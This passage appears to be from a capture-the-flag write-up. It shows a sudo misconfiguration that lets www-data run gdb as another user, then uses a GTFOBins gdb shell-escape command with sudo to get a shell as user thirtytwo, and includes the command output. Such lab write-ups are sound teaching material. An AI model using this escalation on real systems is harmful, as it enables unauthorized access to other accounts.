 More enumeration lets us know we can run `gdb` as user `thirtytwo`.
<br>
<br>

```
Matching Defaults entries for www-data on ubuntu-xenial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu-xenial:
    (thirtytwo) NOPASSWD: /var/www/gdb
```

Searching up `gdb` command on [GTFObins](https://gtfobins.github.io/) tells us a command we can run to get a shell as that user.
<br>
<br>

`gdb -nx -ex '!sh' -ex quit`
<br>
<br>

Modifying that command for our purposes gives us:
<br>
<br>

`sudo -u thirtytwo /var/www/gdb -nx -ex '!sh' -ex quit`
<br>
<br>

```
$ sudo -u thirtytwo /var/www/gdb -nx -ex '!sh' -ex quit        
GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word".

whoami
thirtytwo
```
<br>
<br>

We now have a shell as user `thirtytwo`.
<br>
<br>
